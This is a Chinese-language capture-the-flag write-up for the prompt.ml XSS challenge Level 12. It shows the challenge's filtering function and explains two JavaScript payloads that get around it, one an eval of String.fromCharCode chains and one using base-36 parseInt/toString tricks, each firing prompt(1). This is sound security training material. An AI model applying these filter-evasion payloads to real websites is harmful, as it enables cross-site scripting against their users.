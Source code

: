## [[prompt(1) to win](http://prompt.ml)] [[Level C - ノ┬─┬ノ ︵ ( \\o°o)\\](http://prompt.ml/12)] [[解题报告](https://exp-blog.com/safe/ctf/prompt/level-c-ノ┬─┬ノ-︵-(-\o°o)\/)]

------

## 题目

```javascript
function escape(input) {
    // in Soviet Russia...
    input = encodeURIComponent(input).replace(/'/g, '');
    // table flips you!
    input = input.replace(/prompt/g, 'alert');

    // ノ┬─┬ノ ︵ ( \o°o)\
    return '<script>' + input + '</script> ';
}
```

## 解题报告

这题与 【[Level A - (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 十分相似。

区别在于 `replace` 的 `prompt` 和 单引号 `'` 的顺序反转了。

但是无论顺序如何，过滤后可以使用的字符都只剩下  `a-z`、 `A-Z`、`0-9`、 `.`、 `(`、 `)`、 `!`、 `~`、 `*` 。

因此这题直接使用 【[Level A - (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 的 payload 就可以 pass ：

```javascript
eval(String.fromCharCode(112).concat(String.fromCharCode(114)).concat(String.fromCharCode(111)).concat(String.fromCharCode(109)).concat(String.fromCharCode(112)).concat(String.fromCharCode(116)).concat(String.fromCharCode(40)).concat(String.fromCharCode(49)).concat(String.fromCharCode(41)))
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/01.png)


------------

但其实这题还有另一种更巧妙的解法。

在 JS 中存在一个函数 `parseInt(str, radix)` 。

默认情况下，`radix = 10`，即它可以把十进制的数字字符串转换成十进制数。

但是通过调整进制数 `radix` ，它可以把其他进制的字符串转换成十进制数。

而当 `radix = 36` 时。它可以把只包含 `0-9a-z` （大小写不敏感）的字符串转换成十进制数。

于是我们可以把 `prompt`  字符串转换成十进制数：`parseInt("prompt", 36)` ，得到 `1558153217` 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/02.png)

而要将十进制数字还原成字符串，则可以使用另一个函数 `toString(radix)` （默认情况下 `radix = 10` ）。

即可以使用此方法 `(1558153217).toString(36)` 还原得到 `prompt` 字符串：

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/03.png)

于是最开始的 payload 就开始简化成这样：

```javascript
eval((1558153217).toString(36).concat(String.fromCharCode(40)).concat(1).concat(String.fromCharCode(41)))
```

>  注：【[Level A - (╯°□°）╯︵ ┻━┻](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2010%20-%20%28%E2%95%AF%C2%B0%E2%96%A1%C2%B0%EF%BC%89%E2%95%AF%EF%B8%B5%20%E2%94%BB%E2%94%81%E2%94%BB)】 同样可以使用这个 payload 完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2012%20-%E3%83%8E%E2%94%AC%E2%94%80%E2%94%AC%E3%83%8E%20%EF%B8%B5%20%28%20%60o%C2%B0o%29%60/imgs/04.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
